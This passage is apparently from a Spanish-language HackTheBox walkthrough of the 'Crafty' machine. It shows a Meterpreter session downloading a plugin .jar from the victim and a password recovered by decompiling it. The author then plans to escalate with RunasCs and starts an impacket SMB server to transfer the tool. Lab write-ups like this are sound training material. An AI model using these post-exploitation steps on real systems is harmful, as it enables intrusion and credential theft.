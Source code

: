 - Ahora nos descargamos el `.jar`.

```bash
meterpreter > pwd
C:\Users\svc_minecraft\server\plugins
meterpreter > download playercounter-1.0-SNAPSHOT.jar
[*] Downloading: playercounter-1.0-SNAPSHOT.jar -> /home/miguel/playercounter-1.0-SNAPSHOT.jar
[*] Downloaded 9.76 KiB of 9.76 KiB (100.0%): playercounter-1.0-SNAPSHOT.jar -> /home/miguel/playercounter-1.0-SNAPSHOT.jar
[*] Completed  : playercounter-1.0-SNAPSHOT.jar -> /home/miguel/playercounter-1.0-SNAPSHOT.jar
```

- Vamos a usar `jd-gui` para ver el archivo.

- Una vez lo subimos vemos que parase ser una contraseña.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/crafty/3.png">
</p>

- s67u84zKq8IXw.

- Lo mas probable es que la contraseña sea del usuario Administrador pero no vimos el puerto de `winrm` abierto así que vamos a tener que utilizar `RunasCs` para ganar acceso <https://github.com/antonioCoco/RunasCs/releases>.

- Para pasar el Runas a la máquina victima podemos hacerlo sin necesidad de usar `Metasploit`.

```bash
➜  Downloads impacket-smbserver smbFolder $(pwd) -smb2support -username test -password 1234567
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
